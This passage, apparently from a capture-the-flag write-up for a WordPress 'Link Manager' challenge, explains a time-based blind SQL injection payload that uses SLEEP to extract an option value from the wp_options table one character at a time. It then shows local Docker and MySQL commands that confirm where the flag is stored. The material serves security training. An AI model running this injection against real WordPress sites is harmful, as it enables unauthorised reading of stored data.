 Beautified:

```sql
(
  SELECT 
    IF(
      MID(
        (
          SELECT 
            <column_name> 
          FROM 
            <table_name>
        ), 
        <start_position>, 
        1
      )= '<character_here>', 
      SLEEP(1), 
      NULL
    )
)
```

In the above payload, if the character of the `<start_position>` in column `<column_name>` table `<table_name>` equals to `<character_here>`, it'll `SLEEP` for 1 second. Otherwise, do nothing. Therefore, if the response has 1-second delay, we can know that we found the correct character at x position.

In WordPress options, all data is stored in the [wp_options] table. Inside this table, column `option_name` and `option_value` holds the option's name, and it's value, kind of like a key-value pair. In our case, we can get the flag option's value via option name `flag_links_data`. We can try to test it in our local environment:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|19:11:45(HKT)]-[git://main ✗]
└> docker compose run --rm wpcli option add 'flag_links_data' 'REDACTED'
[...]
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|19:11:51(HKT)]
└> docker container list                                                
CONTAINER ID   IMAGE                               COMMAND                  CREATED             STATUS             PORTS                                                                                  NAMES
[...]
cafb4c17ae14   mysql:8.0.20                        "docker-entrypoint.s…"   About an hour ago   Up About an hour   0.0.0.0:3306->3306/tcp, :::3306->3306/tcp, 33060/tcp                                   mysql-wpd
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|19:11:59(HKT)]
└> docker exec -it cafb4c17ae14 /bin/bash
root@cafb4c17ae14:/# 
```

```shell
root@cafb4c17ae14:/# mysql -umydbuser -pmydbpassword -Dmydbname
[...]
mysql> SELECT option_value FROM wp_options WHERE option_name = 'flag_links_data';
+--------------+
| option_value |
+--------------+
| REDACTED     |
+--------------+
```
